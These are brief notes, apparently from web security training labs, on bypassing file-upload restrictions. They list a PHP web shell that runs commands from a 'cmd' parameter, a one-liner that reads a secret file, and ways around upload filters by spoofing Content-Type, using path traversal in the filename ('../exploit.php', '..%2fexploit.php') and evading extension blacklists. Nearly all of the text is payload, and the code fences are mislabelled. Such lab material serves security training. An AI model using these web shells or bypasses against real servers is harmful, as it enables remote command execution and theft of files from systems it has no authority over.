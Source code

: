**Web shell upload via Content-Type restriction bypass**
```c
<?php echo system($_GET["cmd"]); ?>
```
```css
Web shell upload via Content-Type restriction bypass
Change the content-type to required file and we can upload our shell

<?php echo file_get_contents('/home/carlos/secret'); ?>
```

```python
Web shell upload via path traversal
Change the path of the file from filename="exploit.php" To filename="../exploit.php" or "..%2fexploit.php"
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

```
Web shell upload via extension blacklist bypass
<?php echo file_get_contents('/home/carlos/secret'); ?>

```
